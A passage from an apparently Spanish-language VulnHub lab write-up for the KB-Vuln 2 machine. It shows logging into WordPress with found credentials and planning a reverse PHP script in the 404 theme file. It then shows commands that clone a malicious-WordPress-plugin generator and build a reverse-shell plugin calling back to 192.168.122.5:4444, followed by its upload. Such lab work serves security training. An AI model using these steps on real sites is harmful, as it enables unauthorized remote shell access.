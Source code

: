 Leer el archivo remember_me.txt, mostrará un usuario y contraseña

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/17.png){: .align-center}

Ir al login de la web de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/18.png){: .align-center}

Copiar la direccion DNS del action del formulario.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/19.png){: .align-center}

Añadir el dominio dns al archivo `/etc/hosts`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/20.png){: .align-center}

Recargar el sitio, ahora se verá correctamente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/21.png){: .align-center}

Colocar el usuario y contraseña y dar en Log In

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/22.png){: .align-center}

Ir al editor de temas de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/23.png){: .align-center}

Editar el archivo 404 con un script de reverse_php

Preparar un plugin que hará un shell inverso

```bash
cd ~/Downloads/repos

git clone https://github.com/wetw0rk/malicious-wordpress-plugin.git

cd malicious-wordpress-plugin

Python wordpwn.py 192.168.122.5 4444 Y
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/24.png){: .align-center}

Se pondrá de forma automática en escucha

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/25.png){: .align-center}

Y se creará un archivo zip

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/26.png){: .align-center}

Subir el plugin al sitio de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/27.png){: .align-center}
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/28.png){: .align-center}
